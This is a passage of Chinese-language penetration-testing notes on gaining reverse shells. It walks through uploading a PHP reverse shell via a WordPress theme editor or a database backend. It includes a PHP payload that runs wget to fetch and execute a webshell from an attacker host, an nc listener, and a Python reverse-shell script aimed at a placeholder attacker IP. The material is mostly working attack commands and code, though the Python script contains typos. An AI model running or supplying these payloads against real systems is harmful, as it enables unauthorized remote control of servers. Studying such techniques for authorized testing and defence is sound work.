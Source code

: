     # 4. 执行后，查看攻击机的终端。（）
    ```

    * 方式二：在 `/usr/share/webshells/php/` 下获取

    ```shell
    # 1. 制作 webshell
    cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/
    # 2. 编辑 webshell
    cd ~/Desktop && gedit php-reverse-shell.php
    # 3. 修改 ip ,port 为攻击机的 IP,port
    # 4. 如果是 wordpress 后台，和上面的步骤一样。只是编辑框清空后输入 修改后的  php-reverse-shell.php 里的内容。
    # 5. upload
    # 如果是可以通过 ssi注入 或者 登录数据库后台新建数据库，则可以通过在攻击机浏览器提交相关命令或者执行数据表 来下载 反弹的 webshell 并执行。
    # 5.1 靶机从攻击机下载 shell 就需要，攻击机开启相应的服务。方法如下：
    python -m "SimpleHTTPServer" # 在哪里路径下执行，它的根目录就是那里。并且提示开启的端口是哪个。
    # 5.2 这里说通过数据库后台上传，新建一个数据库 --> 数据表 --> 字段，然后值为如下：
    <?php system("cd /tmp;wget http://ip:port/webshell.php;chmod +x webshell.php;php webshell.php");?>
    # 6. 启用监听，和优化会话
    nc -nlvp port
    # 7. 执行 shell,获取反弹shell
    # 格式：http://ip:port/目录/wp-content/themes/主题名/404.php ，如下：
    http://ip:port/wordpress/wp-content/themes/twentythirteen/404.php
    # 8. 查看监听的终端界面，可以看到已经返回的 shell
    ```

### 反弹 shell 代码

#### python

```python
#!/usr/bin/python
import os, subprocess, socket

s = socket.socekt(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("攻击机IP地址"，"攻击机监听端口"))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])

```
